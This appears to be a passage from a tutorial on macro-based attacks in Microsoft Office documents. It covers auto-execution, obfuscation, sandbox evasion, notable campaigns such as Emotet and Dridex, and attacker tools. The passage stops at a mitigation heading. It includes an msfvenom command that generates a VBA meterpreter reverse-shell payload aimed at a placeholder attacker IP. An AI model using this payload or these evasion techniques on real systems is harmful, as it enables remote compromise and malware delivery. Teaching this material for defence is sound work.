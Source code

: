 ## 3. **Key Attack Techniques Using Macros**

- **Auto-execution:**
  - Use of `AutoOpen` or `Workbook_Open()` functions to execute the macro code as soon as the document opens.
- **Obfuscation:**
  - Attackers **obfuscate macro code** to avoid detection by antivirus software. This includes encoding payloads in Base64 or splitting commands across multiple lines to bypass static analysis.
- **Fileless Execution:**
  - The macro directly invokes **WMI, PowerShell, or CMD commands** without dropping any files to disk, reducing detection chances by traditional security tools.
- **Sandbox Evasion:**
  - Macros can include checks to identify whether the environment is a sandbox or virtual machine. If detected, the macro terminates to avoid security analysis.

---

## 4. **Notable Attacks Involving Macros**

- **Emotet:**
  A banking Trojan that spread through macro-laden Word documents, later evolving into a platform for other malware such as TrickBot and Ryuk ransomware.
- **Dridex:**
  A sophisticated banking malware distributed via Excel files with malicious macros. Dridex macros downloaded and executed additional payloads to steal financial information.
- **Locky Ransomware:**
  This ransomware campaign used Word documents with macros to download and encrypt victims' data, demanding a ransom in Bitcoin.

---

## 5. **Tools Used by Attackers for Macro-based Attacks**

1. **MSFVenom (Metasploit Framework):**

   Used to generate malicious VBA payloads that can be embedded into Office documents.

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f vba
   ```

2. [\*\*EvilClippy](https://github.com/outflanknl/EvilClippy):\*\*

   A tool to inject malicious macros into Microsoft Office documents while bypassing some security checks.

3. **MacroPack:**

   Used to automate the generation of obfuscated macro payloads and pack them into Office documents. We gonna play with it..

---

## 6. **Mitigation Strategies**
